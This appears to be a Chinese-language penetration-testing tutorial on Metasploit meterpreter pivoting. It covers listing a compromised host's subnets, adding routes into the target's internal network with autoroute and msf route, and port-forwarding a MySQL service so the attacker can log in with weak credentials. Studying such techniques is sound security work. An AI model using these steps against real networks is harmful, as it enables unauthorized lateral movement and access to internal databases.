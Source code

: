 #### meterpreter添加路由

大多时候我们获取到的meterpreter shell处于内网，而我们需要代理到目标内网环境中，扫描其内网服务器。这时可以使用route功能，添加一条通向目标服务器内网的路由。

- **查看shell网络环境**

```
meterpreter > run get_local_subnets
```

- **添加一条通向目标服务器内网的路由**

```
meterpreter > run autoroute -s 100.0.0.0/8 (根据目标内网网络而定)
```

- **查看路由设置**

```
meterpreter > run autoroute –p
```

一般来说，在meterpreter中设置路由便可以达到通往其内网的目的。然而有些时候还是会失败，这时我们可以background返回msf>，查看下外面的路由情况。

```
route print
```

如果发现没有路由信息，说明meterpreter shell设置的路由并没有生效，我们可以在msf中添加路由。

```
msf>route add 10.0.0.0 255.0.0.0 1
```

说明：1表示session 1，攻击机如果要去访问10.0.0.0/8网段的资源，其下一跳是session1，至于什么是下一条这里不多说了，反正就是目前攻击机可以访问内网资源了。

- **meterpreter端口转发**

假设目前我们扫描到了10网段的某个ip存在mysql弱口令，账号密码都有了，那么我们可以在肉鸡服务器上登陆目标服务器mysql。当然，如果我想在攻击机上去登陆mysql，可以使用端口转发。（某些情况下，内网的机器也不能互相ssh，需要登陆堡垒机）

在meterpreter shell中输入：

```
meterpreter > portfwd add -l 55555 -r 10.0.0.1 -p 3306
```

表示将10.0.0.1服务器上的3306端口转发到本地的55555端口，然后我们可以在本地运行mysql –h 127.0.0.1 –u root –P 55555 –p 去登陆mysql。其他端口如ssh、ftp等都类似。